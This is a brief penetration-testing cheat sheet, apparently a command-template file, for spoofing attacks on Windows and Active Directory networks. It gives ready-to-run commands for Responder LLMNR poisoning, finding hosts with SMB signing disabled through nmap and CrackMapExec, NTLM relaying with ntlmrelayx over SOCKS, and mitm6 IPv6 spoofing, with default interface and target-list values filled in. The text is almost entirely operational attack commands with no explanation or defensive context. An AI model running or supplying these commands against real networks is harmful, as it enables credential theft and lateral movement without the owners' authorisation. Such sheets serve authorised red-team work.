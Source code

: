 # Spoofing

## Responder - LLMNR Poisoning

```
responder-http-on
responder-smb-on
responder -I <interface> -d -w
```

= interface: enp0s31f6

## SMB signing disabled - nmap

```
nmap -Pn --script smb-security-mode -p445 <target>
```

= target: $TARGETS/computers.list

## SMB signing disabled - cme

```
cme smb <target> --gen-relay-list <output_file>
```

= target: $TARGETS/computers.list

## Responder - Relay

```
responder-http-off
responder-smb-off
responder -I <interface> -d -w
```

= interface: enp0s31f6

## NTLM Relay with SOCKS (SMB)

```
ntlmrelayx -tf <targets_file> -socks -smb2support
```

= targets_file: $TARGETS/relay_targets.list

## mitm6 for NTLM Relay

```
mitm6 --interface <interface> --domain <domain>
```

= interface: enp0s31f6
= domain: